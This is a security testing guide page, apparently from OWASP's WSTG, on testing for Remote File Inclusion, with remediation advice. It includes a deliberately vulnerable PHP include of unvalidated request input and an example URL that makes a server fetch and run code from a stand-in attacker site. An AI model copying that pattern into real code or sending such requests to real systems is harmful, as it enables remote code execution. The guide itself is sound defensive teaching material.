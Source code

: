 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Remote File Inclusion

## Summary

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

- Code execution on the web server
- Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS)
- Denial of Service (DoS)
- Sensitive Information Disclosure

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

## How to Test

Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a black-box testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against an allow list), so this snippet of code results vulnerable to this type of attack. Consider the following URL:

`http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page`

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

## Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible the application can maintain an allow list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path.

## References

- ["Remote File Inclusion"](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)
- [Wikipedia: "Remote File Inclusion"](https://en.wikipedia.org/wiki/Remote_File_Inclusion)
